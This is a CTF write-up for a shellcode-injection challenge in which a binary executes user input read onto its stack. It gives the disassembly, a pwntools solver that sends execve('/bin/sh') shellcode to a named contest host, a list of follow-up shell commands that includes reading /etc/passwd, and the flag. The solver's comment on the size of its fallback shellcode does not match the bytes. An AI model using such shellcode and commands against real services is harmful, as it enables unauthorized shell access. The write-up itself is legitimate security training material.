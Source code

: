 # tinggal run
### Description: asli serius tinggal run aja

We are given a ```chall``` binary file.

I ran objdump -d on it to get some dissasemblies to then analyze and craft a solver to get a flag.

Here are some glaring vulnerabilities i found analyzing it:

```
4012b2: lea    -0x100(%rbp),%rax    ; Load address of 256-byte stack. buffer
4012b9: mov    $0x100,%edx          ; Read up to 256 bytes.
4012c6: call   4010c0 <read@plt>    ; read(0, buffer, 256) - read user input.
4012cb: lea    -0x100(%rbp),%rdx    ; Load buffer address again.
4012d7: call   *%rdx               ; Execute buffer contents as code.
```

The vulnerability is a direct shellcode injection in the main function.

So the program allocates a 256-byte buffer on the stack, then it reads user input directly into this buffer via read(), finally, it directly executes the buffer contents with call *%rdx.

Essentially asking the user "give me some code to run".

To solve, we can use x86-64 assembly to spawn a shell.

When the shell spawns, we can look for the flag in common locations like flag.txt, /flag, etc.

Here is a solver i drafted with the help of Claude:
```
#!/usr/bin/env python3
from pwn import *
import time

# Target connection
host = "intersec.hcs-team.com"
port = 10457

try:
    # Connect to the remote service
    p = remote(host, port)
    
    # Wait for the banner and prompt
    print("Receiving banner...")
    banner = p.recvuntil(b"Enter some text:")
    print(banner.decode('utf-8', errors='ignore'))
    
    # x86-64 shellcode for execve("/bin/sh", NULL, NULL)
    shellcode = b"\x48\x31\xf6\x56\x48\xbf\x2f\x62\x69\x6e\x2f\x2f\x73\x68\x57\x54\x5f\x6a\x3b\x58\x99\x0f\x05"
    
    print(f"Sending shellcode ({len(shellcode)} bytes)...")
    p.send(shellcode)
    
    # Give the shellcode time to execute
    time.sleep(0.5)
    
    print("Attempting to get flag...")
    
    # Try common flag locations
    flag_commands = [
        b"cat flag.txt\n",
        b"cat flag\n", 
        b"cat /flag\n",
        b"cat /home/*/flag*\n",
        b"ls -la\n",
        b"find / -name '*flag*' 2>/dev/null\n",
        b"cat /etc/passwd\n"
    ]
    
    for cmd in flag_commands:
        try:
            print(f"Trying: {cmd.decode().strip()}")
            p.send(cmd)
            
            # Try to receive output with timeout
            try:
                output = p.recv(timeout=2)
                if output:
                    result = output.decode('utf-8', errors='ignore')
                    print(f"Output: {result}")
                    
                    # Check if this looks like a flag
                    if any(flag_indicator in result.lower() for flag_indicator in ['flag{', 'ctf{', 'intersec{', 'hcs{']):
                        print(f"\n*** POTENTIAL FLAG FOUND: ***")
                        print(result)
                        print("*" * 50)
                        
            except EOFError:
                print("Connection closed by remote")
                break
                
        except Exception as e:
            print(f"Error with command {cmd}: {e}")
            continue
    
    # Try interactive mode
    print("\nTrying interactive shell...")
    try:
        p.interactive(timeout=10)
    except:
        pass
        
except Exception as e:
    print(f"Connection error: {e}")
    print("Trying alternative shellcode...")
    
    # Try with alternative shellcode if first fails
    try:
        p = remote(host, port)
        p.recvuntil(b"Enter some text:")
        
        # Alternative shellcode (22 bytes)
        alt_shellcode = b"\x6a\x68\x48\xb8\x2f\x62\x69\x6e\x2f\x2f\x2f\x73\x50\x48\x89\xe7\x68\x72\x69\x01\x01\x81\x34\x24\x01\x01\x01\x01\x31\xf6\x56\x6a\x08\x5e\x48\x01\xe6\x56\x48\x89\xe6\x31\xd2\x6a\x3b\x58\x0f\x05"
        
        p.send(alt_shellcode)
        time.sleep(1)
        p.send(b"cat flag*\n")
        
        result = p.recv(timeout=3)
        print(f"Alternative attempt result: {result.decode('utf-8', errors='ignore')}")
        
    except:
        print("Both attempts failed")

finally:
    try:
        p.close()
    except:
        pass
```

Running it gives us the flag:

![alt text](image.png)

Flag: ```HCS{sh3llc0de_us1ng_sh3llcraft_4nd_sh3llstorm_dc323f78-f19d-409d-92a2-34965646dd98}```


